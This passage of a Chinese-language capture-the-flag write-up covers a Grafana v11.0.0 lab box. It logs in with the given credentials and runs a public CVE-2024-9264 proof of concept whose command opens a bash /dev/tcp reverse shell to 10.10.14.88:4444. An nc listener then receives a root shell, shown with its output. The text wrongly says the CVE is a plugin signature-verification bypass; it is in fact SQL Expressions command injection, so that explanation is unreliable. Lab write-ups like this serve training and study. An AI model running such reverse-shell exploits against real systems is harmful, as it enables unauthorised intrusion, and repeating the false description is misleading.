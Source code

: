 ![Grafana 登入頁面](grafana_login.png)

在這裡用題目給的帳號密碼就可以成功登入，但沒有什麼可以利用的目標，所以只好嘗試去挖人家寫好的 PoC。

```
grafana v11.0.0 cve
```

### Exploiting CVE-2024-9264

透過搜尋可以找到這個 GitHub repo：[nollium/CVE-2024-9264](https://github.com/nollium/CVE-2024-9264)。CVE-2024-9264 是 Grafana v11.0.0 中的一個嚴重安全漏洞，它允許經過身份驗證的攻擊者通過利用 Grafana 的外掛系統執行遠端程式碼。該漏洞存在於 Grafana 處理外掛簽名驗證的邏輯中，攻擊者可以通過構造特殊的請求繞過簽名檢查，從而在目標系統上執行任意命令。

我們可以用這個 PoC 建立一個 reverse shell 連線：

```shell
➜ git clone https://github.com/nollium/CVE-2024-9264.git
➜ ./CVE-2024-9264/CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'bash -c "bash -i >& /dev/tcp/10.10.14.88/4444 0>&1"' http://grafana.planning.htb/
```

另外一邊使用 `nc` 監聽就可以拿到控制權了。

```shell
➜ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.88] from (UNKNOWN) [10.10.11.68] 48284
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@7ce659d667d7:~#
```

